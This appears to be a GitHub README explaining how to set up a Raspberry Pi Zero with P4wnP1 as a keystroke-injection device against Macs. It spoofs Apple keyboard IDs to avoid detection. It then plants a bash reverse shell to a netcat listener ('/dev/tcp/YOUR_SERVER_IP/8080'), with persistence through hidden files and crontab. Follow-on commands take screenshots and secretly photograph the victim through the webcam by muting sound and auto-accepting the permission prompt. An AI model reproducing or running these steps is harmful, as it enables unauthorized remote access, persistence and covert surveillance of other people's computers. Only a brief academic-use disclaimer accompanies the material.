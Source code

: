 # Ducky Raspberry Pi Zero for Mac

There are some threads about P4wnP1 ducky not running on Mac but here is an introduction about setting up P4wnP1 so your pi zero can attack Mac.

## Demo Video

[![Brian Ducky Raspberry Pi Zero demo](https://img.youtube.com/vi/IrasdisNsJk/0.jpg)](https://www.youtube.com/watch?v=IrasdisNsJk)

## Requirements

1. Raspberry Pi Zero
2. 8G+ Micro SD card
3. USB Cable \(A-Male to Micro B\)

## Setup

1. Download Raspbian Stretch Lite [image](https://www.raspberrypi.org/downloads/raspbian/).
2. Install image on micro SD card with [Etcher](https://www.balena.io/etcher/).
3. Boot your pi and login with default username and password.
```
username: pi
password: raspberry
```
4. (Optional) Change default password for a better security.
5. Connect to network using Wi-Fi or ethernet (Adapter needed).
```shell
sudo raspi-config
```
6. Download P4wnP1 package and install it. \(If newer version is not working, I have an archived version in this repository that worked when I wrote this documentation.\)
```shell
git clone --recursive https://github.com/mame82/P4wnP1
cd P4wnP1/
./install.sh
```
7. (Important) Change scripts so it will run on Mac. This is a temporarily (03/25/19) workaround solution. "open('/dev/hidg0','rb')" is not working on Mac currently so add a timeout to line 200 in P4wnP1/boot/boot_P4wnP1.
```shell
timeout 1 python -c "with open('/dev/hidg0','rb') as f:  print ord(f.read(1))"
```
8. (Important) Use Vendor ID and Product ID from a real Apple keyboard in your payload so Mac won't be asking you to setup an unknown keyboard. See example [here](./payloads/hid_keyboard_hello_world.txt).
```
USB_VID="0x05ac"  # Vendor ID
USB_PID="0x027b"  # Product ID
```
9. Put your payload into P4wnP1/payloads/ on your pi zero. Load the payload in "P4wnP1/setup.cfg".
```
PAYLOAD=hid_keyboard_hello_world.txt  # Add to the end of the file
```
10. Shutdown the pi zero and plug it into a Mac with USB cable mentioned [above](#requirements). Use peripheral micro USB port, not the power port. No power needed here, pi zero takes power from target machine.
```shell
sudo shutdown -h now
```
11. If you want to edit the payload later, plug the pi zero into your machine, connect to Wi-Fi "P4wnP1" with password "MaMe82-P4wnP1", and ssh to it.
```shell
ssh pi@172.16.0.1
```

## Create a Reverse Shell Backdoor

1. Host Netcat server on your machine.
```shell
nc -l -p 8080 -vvv
```
2. Create a descriptor on target machine. Make sure to change the IP address and port to your server. Your server must be in the same network as target unless you have a public IP that can be accessed by target machine everywhere. \(Run the descriptor in background is recommended.\)
```shell
bash -i >& /dev/tcp/YOUR_SERVER_IP/8080 0>&1
```
3. On your server, when you see a connection being created, you then have bash access to the target machine. You would be able to see the output of bash directly on your machine with the setup above.
4. In [payloads/](./payloads/) there is a reverse shell ducky script example. Here is the clean up script if you use my example.
```shell
rm ~/app_support.sh; rm /tmp/app_support.sh; rm ~/.ssh/rsa_pub_; rm ~/Library/.hidden/app_support.sh; rm ~/Library/Python3.65; rm /usr/local/bin/Python3.65;
echo "" | crontab - && crontab -r
```

## What Now

* Rick roll prank
```shell
# One privilege of hacking Mac is we have access to applescript.
osascript -e 'set volume 7'
pen https://www.youtube.com/watch?v=dQw4w9WgXcQ
```

* Accessing sudo privilege
```shell
echo "password" | sudo -S ls
```

* Take a screenshot
```shell
screencapture ~/a.jpg
```

* Take a photo with Mac's webcam
```shell
# Since brew does not require sudo privilege, if victim has brew, this works.
brew install imagesnap
osascript -e 'set volume 0'  # mute
imagesnap ~/a.png
osascript -e 'tell application "System Events" to delay 1' && / 
osascript -e 'tell application "System Events" to keystroke return'  # Mac will ask for permission, make the victim hit enter!
```

## Author and Contributors

* **[Brian Sung](https://github.com/ohbriansung)** 
* Jordan Aldujaili
* Omar Sharif

## Disclaimer

This repository is for academic purposes, the use of this software is your responsibility.

## References

0. [Raspbian](https://www.raspberrypi.org/downloads/raspbian/)
1. [Ducky Script](https://github.com/hak5darren/USB-Rubber-…)
2. [P4wnP1](https://github.com/mame82/P4wnP1/)
3. [Reverse Shell with Bash](https://www.gnucitizen.org/blog/reverse-shell-with-bash/)
